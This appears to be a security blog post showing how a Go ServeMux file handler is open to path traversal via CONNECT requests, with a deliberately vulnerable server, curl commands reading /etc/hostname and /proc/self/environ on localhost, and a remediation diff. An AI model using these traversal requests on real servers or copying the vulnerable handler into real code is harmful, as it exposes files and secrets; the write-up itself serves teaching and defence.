 ```yaml
---
layout: post
title: ServeMux and path traversal exploitation
categories: exploitation, websecurity, go
tags: [go, websecurity, pathtraversal, exploitation]
comments: true
---
```


I really love Go language and write almost everything I do in it and it's a topic for other blog posts itself. Here we'll talk about pretty common path traversal vulnerability exploitation.

**TL;DR** Too many people think that `ServeMux` always sanitizes a URL request path when it's not. Well at least not *always*.

# Issue

Consider the following snippet:
```go
package main

import (
	"io/ioutil"
	"log"
	"net/http"
	"path/filepath"
	"strings"
)

const root = "/tmp"

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
		contents, err := ioutil.ReadFile(filename)
		if err != nil {
			w.WriteHeader(http.StatusNotFound)
			return
		}
		w.Write(contents)
	})

	server := &http.Server{
		Addr:    "127.0.0.1:50000",
		Handler: mux,
	}

	log.Fatal(server.ListenAndServe())
}
```


Seems like a basic path traversal for someone who do not write Go and write Go a lot :)

Let's create a file in `/tmp` folder to ensure everything works as expected:
```sh
echo content > /tmp/somefile
curl -v 127.0.0.1:50000/somefile
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /somefile HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:08:46 GMT
< Content-Length: 8
< Content-Type: text/plain; charset=utf-8
< 
content
* Connection #0 to host 127.0.0.1 left intact
```


Seems okay, time to exploit it:
```sh
curl -v --path-as-is 127.0.0.1:50000/somefile/../../etc/hostname
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /something/../../../etc/hostname HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Content-Type: text/html; charset=utf-8
< Location: /etc/hostname
< Date: Wed, 18 Jul 2018 18:07:35 GMT
< Content-Length: 48
< 
<a href="/etc/hostname">Moved Permanently</a>.

* Connection #0 to host 127.0.0.1 left intact
```


Turns out that `ServeMux` canonicalize requested path so it's not *super easy* exploitable, but it still is.

Here goes the `CONNECT` method:
```sh
curl -v -X CONNECT --path-as-is 127.0.0.1:50000/../../proc/self/environ
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> CONNECT /../../proc/self/environ HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:17:55 GMT
< Content-Type: application/octet-stream
< Transfer-Encoding: chunked
< 
...
```

Bingo.


I should note that this is an expected behaviour and [clearly documented](https://golang.org/pkg/net/http/#ServeMux.Handler) in `net/http` package docs:
> The path and host are used unchanged for CONNECT requests.

# Remediation

Use `filepath.FromSlash` accompanied with `path.Clean`:
```diff
diff --git a/main.go b/main.go
index d50e6f3..91e5015 100644
--- a/main.go
+++ b/main.go
@@ -4,6 +4,7 @@ import (
        "io/ioutil"
        "log"
        "net/http"
+       "path"
        "path/filepath"
        "strings"
 )
@@ -13,7 +14,7 @@ const root = "/tmp"
 func main() {
        mux := http.NewServeMux()
        mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
-               filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
+               filename := filepath.Join(root, filepath.FromSlash(path.Clean("/"+strings.Trim(r.URL.Path, "/"))))
                contents, err := ioutil.ReadFile(filename)
                if err != nil {
                        w.WriteHeader(http.StatusNotFound)
```


Also, it's a good practice to limit acceptable request methods.

If you're not able to fix the code - put a vulnerable service behind a reverse proxy like nginx, that do not allow `CONNECT` method request by default.
